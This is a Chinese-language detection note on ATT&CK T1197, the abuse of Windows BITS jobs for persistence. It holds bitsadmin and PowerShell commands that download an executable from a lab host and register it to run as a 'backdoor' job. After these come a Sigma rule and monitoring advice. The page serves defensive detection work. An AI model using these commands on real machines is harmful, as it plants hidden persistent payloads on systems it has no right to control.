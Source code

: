 # T1197-win-BITS Jobs权限维持

## 来自ATT&CK的描述

Windows BITS（后台智能传输服务）是一种通过COM（组件对象模型）公开的低带宽异步文件传输机制。BITS通常由更新程序、消息程序和其他希望在后台运行（使用可用空闲带宽）而不中断其他网络应用的程序使用。文件传输任务被实现为BITS任务，其中包含一个或多个文件操作队列。

可以通过PowerShell和BITSAdmin工具访问BITS任务创建和管理接口。

攻击者可能会在运行恶意代码后滥用BITS来实现下载、执行甚至清理动作。BITS任务包含在BITS任务数据库中，不需创建新文件或修改注册表，且通常是主机防火墙允许的。启用BITS的执行还可以通过创建长期任务（默认最大生命周期为90天且可延长）或在任务完成或出现错误（包括系统重启后的错误）时调用任意程序来允许持久性。

BITS上传功能也可用于执行Exfiltration Over Alternative Protocol。

## 测试案例

Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“bitsadmin”的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

从攻击的角度来看，可以滥用此功能，以便在受感染的主机上下载有效负载（可执行文件，PowerShell脚本，Scriptlet等）并在给定时间执行这些文件，在红队操作中可以用作保持持久性。但是，与“bitsadmin”进行交互需要管理员级别的权限。

执行以下命令会将恶意有效负载从远程位置下载到本地目录。

```dos
bitsadmin /transfer backdoor /download /priority high http://10.0.2.21/pentestlab.exe C:\tmp\pentestlab.exe #注意此处下载地址必须是标准的HTTP协议。
```

还有一个PowerShell cmdlet可以执行相同的任务。

```powershell
Start-BitsTransfer -Source "http://10.0.2.21/pentestlab.exe" -Destination "C:\tmp\pentestlab.exe"
```

将文件放入磁盘后，可以通过从“bitsadmin”实用程序执行以下命令来实现持久性。用法非常简单：

- 在创建参数需要任务的名称

``` dos
bitsadmin /create backdoor
```

- 该addfile需要文件的远程位置和本地路径

``` dos
bitsadmin /addfile backdoor "http://10.0.2.21/pentestlab.exe"  "C:\tmp\pentestlab.exe"
```

- 该SetNotifyCmdLine将执行的命令

```dos
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\pentestlab.exe NUL
```

- 所述SetMinRetryDelay定义时间回调（秒）

```dos
bitsadmin /SetMinRetryDelay "backdoor" 60
```

- 该简历参数将运行位工作

```dos
bitsadmin /resume backdoor
```

## 检测日志

windows 安全日志/windows BITS应用日志/Windows sysmon日志

## 测试复现

![image1](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/894761-20191111110145812-668139170.png)

![image2](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/894761-20191111110227491-23710429.png)

![image3](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/894761-20191111110245500-1362389929.png)

## 测试留痕

![image4](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/lqedzV.png)

![image5](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/lqeWz6.png)

![image6](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/lqmiYn.png)

## 检测规则/思路

### Sigma规则

```yml
title: Bitsadmin Download
status: 测试阶段
description: 试用bitsadmin进行下载任务
references:
    - https://blog.netspi.com/15-ways-to-download-a-file/#bitsadmin
    - https://isc.sans.edu/diary/22264
tags:
    - attack.defense_evasion
    - attack.persistence
    - attack.t1197
    - attack.s0190
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        Eventid:
            - 4688 #windows 进程创建，当系统版本在2012以上，可记录命令行参数，可基于命令行参数进行监控。
            - 1    #sysmon 进程创建，当系统中部署有sysmon，可通过sysmon中的进程创建日志进行监控。
        Image:
            - '*\bitsadmin.exe' #此规则检测作用有限，不针对powershelll下场景做检测
        CommandLine:
            - '* /transfer *'
    selection2:
        CommandLine:
            - '*copy bitsadmin.exe*'
    condition: selection1 or selection2
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - Some legitimate apps use this, but limited.
level: medium
```

### 建议

建议非系统程序发起的BITS传送任务进行分析检测（白名单机制）。

BITS作为服务运行。可使用Sc查询实用程序（sc query bits）来检查其状态。可使用BITSAdmin工具（bitsadmin/list/allusers/verbose）枚举活跃的BITS任务。

监控BITSAdmin工具（尤其是Transfer，Create，AddFile，SetNotifyFlags，SetNotifyCmdLine，SetMinRetryDelay，SetCustomHeaders和Resume命令选项）的使用及Windows事件日志来查看BITS活动。还要考虑通过解析BITS任务数据库来调查任务相关的更多详细信息。

监控和分析BITS生成的网络活动。BITS任务使用HTTP（S）和SMB进行远程连接，仅限于创建用户，并且仅在该用户登录时才起作用（即使用户将任务附加到服务账号，此规则也适用）。

## 参考推荐

Window权限维持（六）

BITS Jobs <https://www.cnblogs.com/xiaozi/p/11833583.html>

MITRE-ATT&CK-T1197

<https://attack.mitre.org/techniques/T1197/>

MITRE ATT&CK 攻击知识库（企业）中文版

<https://hansight.github.io/#/detail>

BITS持久化留痕日志文件下载地址

<https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES/blob/master/Persistence/persist_bitsadmin_Microsoft-Windows-Bits-Client-Operational.evtx>
